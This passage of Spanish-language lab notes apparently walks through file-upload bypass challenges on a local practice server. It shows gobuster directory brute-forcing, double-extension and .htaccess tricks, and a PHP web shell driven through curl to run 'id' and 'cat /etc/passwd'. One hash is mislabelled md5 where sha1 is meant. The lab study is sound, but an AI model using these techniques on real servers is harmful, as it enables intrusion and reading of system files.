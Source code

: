 Ahora en la url de la web colocamos el md5 y la extension .php = **b0e4bdfca013a84e5f0b9bc9ae028945.php** y despues le colocamos **?cmd=Command** 


35. Solo podemos subir solo archivos 'jpeg, gif'
Para este reto le estan aplicando el **sha1sum** al contenido del archivo ya que tiene 40 caracteres el gif que nos sale por defecto.
```bash
❯ echo -n "cmd" | sha1sum                 # Para aplicar sha1sum a un nombre
❯ echo -n "cmd.php" | sha1sum             # Para aplicar sha1sum a un nombre y la extension
❯ sha1sum cmd.php                         # Para aplicar sha1sum al contenido de un archivo 
```

Ahora en la url de la web colocamos el md5 y la extension .php = **17717d2bf6c721c49d517e7edad96d0750a17a4b.php** y despues le colocamos **?cmd=Command** 


41. Solo podemos subir solo archivos 'jpeg, gif'
Para este caso debemos de hacer un ataque de Fuerza Bruta y encontrar el directorio en donde se esta almacenando el archivo.
```bash
❯ gobuster dir -u http://localhost:9001/upload41/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```
Nos encuentra dos directorios '**images, static**'

Probamos agregando alguno de esos directorios y le colocamos en la web "?cmd=Command"


51. Solo podemos subir solo archivos 'jpeg'
Para esta ocasion haremos un ataque de doble extension y colocarle al archivo .jpg

![](Pasted%20image%2020230510150307.png)


56. Nos pide que coloquemos un nombre de dir 'testing' y subamos un archivo. 
Al momento de darnos el enlace, lo que hace el servidor es tratar de descargarnos el archivo. Por lo que podemos copiarnos esa url y hacer el ataque por consola.
```bash
❯ curl -s -X GET "http://localhost:9001/upload56/testing/cmd.php"   # Miramos el contenido de la web 
```

```bash
❯ curl -s -X GET "http://localhost:9001/upload56/testing/cmd.php" -G --data-urlencode "cmd=id"    # Haremos que nos urlencodee una data que queremos concatenarle
❯ curl -s -X GET "http://localhost:9001/upload56/testing/cmd.php" -G --data-urlencode "cmd=cat /etc/passwd"

	# G = No tenemos que url-encodear espacios
```


58. Nos pide que coloquemos un nombre de dir 'pwned' y subamos un archivo. Pero no podemos subir archivos ejecutables. 

Debemos de subir el archivo .htaccess y el contenido correspondiente.
![](Pasted%20image%2020230510151639.png)
